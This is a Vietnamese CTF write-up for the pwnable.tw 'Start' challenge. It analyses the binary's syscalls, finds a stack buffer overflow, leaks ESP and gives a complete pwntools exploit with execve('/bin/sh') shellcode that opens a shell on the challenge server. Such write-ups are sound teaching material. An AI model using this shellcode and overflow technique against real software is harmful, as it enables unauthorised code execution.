 # Start - pwnable.tw
## Challenge

<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138208384-1665452f-2327-4edc-a780-b3f2a8938387.png">
</p>

### File
<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138210568-1c2f54c4-72d1-4192-ad45-9e8699325d50.png">
</p>

### Checksec
<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138210943-fd316314-5f7c-4ce3-8d89-ef94e4917aa6.png">
</p>

### Run
<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138211025-40281b14-c94f-462a-96cb-4951d2e5a82f.png">
</p>

### Disassemble
<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138210873-5415e47e-b060-4ab5-b029-6f4657dd8cb6.png">
</p>

### Phân tích
Luồng thực thi của chương trình:
- Push esp: đẩy giá trị esp vào stack
- Push ```0x804809d```: đẩy địa chỉ đang trỏ tới hàm thoát vào stack để kết thúc chương trình khi gọi return (Khi phân tích bằng IDA hoặc X96DBG sẽ thấy rõ hơn)
- Khởi tạo giá trị cho các thanh ghi (```xor eax, eax``` nghĩa là ```eax = 0```, tương tự với các thanh ghi ```ebx, ecx, edx```)
- Thực hiện ```5``` lệnh push để đưa dòng chữ ```Let's start the CTF``` vào stack.
- Chương trình dùng ```0x80``` để gọi các lệnh hệ thống (Linux Syscall)
- Giá trị ```0x80``` đầu tiên, ```eax = 4```, chương trình gọi lệnh ```sys_write()``` để in ra stdout (```ebx = 1```) ```20``` kí tự (```edx = 0x14```) tại địa chỉ esp (```ecx = esp```), mục đích là in dòng ```Let's start the CTF``` ra màn hình.
- Giá trị ```0x80``` thứ hai, ```eax = 3```, chương trình gọi lệnh ```sys_read()``` đọc tối đa 60 ký tự (```edx = 0x3c```) từ stdin (```ebx = 0```), lưu vào stack tại vị trí esp (```ecx = esp```).
- Tăng giá trị ```esp``` lên 20 và return.

Ta thấy chương trình cho phép nhập vào 60 kí tự vào stack, trong khi chỉ tăng ```esp``` lên 20 và return. Do đó BOF xảy ra.
Ta sẽ ghi đề stack cho gần tới giá trị return, ta sẽ thay vào đó là địa chỉ chứa shellcode mà ta inject vào. Nó sẽ thực thi shellcode và ta sẽ lấy được shell.

Shell code lấy trên mạng:
```python
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

```
Một vấn đề đặt ra là làm sao ta biết địa chỉ bắt đầu của đoạn shellcode sau khi ta đưa nó vào stack?
Để giải quyết vấn đề này, ta để ý ở đầu phương trình, có lệnh ```push esp``` để đẩy giá trị esp vào đầu stack, vậy nếu ta gửi:

```python
payload = 'A'*0x14 + '\x87\x80\x04\x08'
```

chương trình sau khi return, nó sẽ trở về địa chỉ ```0x08048087``` để chạy tiếp ```sys_write()```, in ra 20 bytes tiếp đó. Vì 4 bytes đầu tiên là của ```push esp``` tức giá trị esp nên ta sẽ biết giá trị esp. Chương trình sẽ tiếp tục chạy lệnh ```sys_read()```, đây là cơ hội để ta chèn tiếp payload có chứa shellcode vào:

```python
payload = 'A'*0x14 + (esp + 20) + shellcode
```

Như vậy chương trình sẽ chạy tiếp và return về đúng địa chỉ shellcode của chúng ta.

### Full payload
```python
from pwn import *

def leak_esp(r):
        address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
        payload = 'A'*20 + address_1
        print r.recvuntil('CTF:')
        r.send(payload)
        esp = u32(r.recv()[:4])
        print "Address of ESP: ", hex(esp)
        return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive() 
```

### Get flag

<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138227276-d8a8c46f-a56a-4157-b36a-476cf828b4f7.png">
</p>

<p align="center">
  <img src="https://user-images.githubusercontent.com/64201705/138227313-817d448a-d72c-4171-85e9-add4b7c0aead.png">
</p>

